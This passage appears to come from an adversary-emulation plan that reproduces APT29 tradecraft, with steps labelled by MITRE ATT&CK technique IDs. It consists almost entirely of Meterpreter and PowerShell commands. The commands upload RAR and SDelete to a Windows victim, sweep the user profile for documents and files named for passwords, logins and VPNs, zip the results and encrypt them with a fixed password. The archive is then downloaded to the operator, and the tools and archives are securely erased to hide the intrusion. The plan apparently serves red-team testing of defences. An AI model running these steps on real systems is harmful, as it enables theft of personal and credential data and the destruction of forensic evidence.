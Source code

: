 [meterpreter\*] >

```cmd
upload "/home/gfawkes/Round2/Day1/payloads/r2d1/Seaduke/rar.exe" "C:\\Windows\\Temp\\Rar.exe"
```

[meterpreter\*] >

```cmd
upload "sdelete64.exe" "C:\\Windows\\Temp\\sdelete64.exe"
```

#### 9.B - Collection and Exfiltration ([T1005](https://attack.mitre.org/techniques/T1005/), [T1041](https://attack.mitre.org/techniques/T1041/), [T1002](https://attack.mitre.org/versions/v6/techniques/T1002/),  [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/))

[meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] >

```powershell
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\working.zip -Force
```

[meterpreter (PowerShell)\*] > `cd C:\Windows\Temp`

[meterpreter (PowerShell)\*] > `.\Rar.exe a -hpfGzq5yKw "$env:USERPROFILE\Desktop\working.zip" "$env:APPDATA\working.zip"`

[meterpreter (PowerShell)\*] > `exit`

[meterpreter\*] > `download "C:\\Users\\<username>\\Desktop\\working.zip" .`

#### 9.C - Indicator Removal on Host: File Deletion ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/))

[meterpreter\*] > `shell`

[meterpreter (Shell)\*] > `cd "C:\Windows\Temp"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Windows\Temp\Rar.exe"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\AppData\Roaming\working.zip"`

[meterpreter (Shell)\*] > `.\sdelete64.exe /accepteula "C:\Users\<username>\Desktop\working.zip"`

[meterpreter (Shell)\*] > `del "C:\Windows\Temp\sdelete64.exe"`

**Terminate Session**

[meterpreter (Shell)\*] > `exit`
[meterpreter\*] > `exit`
msf> `exit`
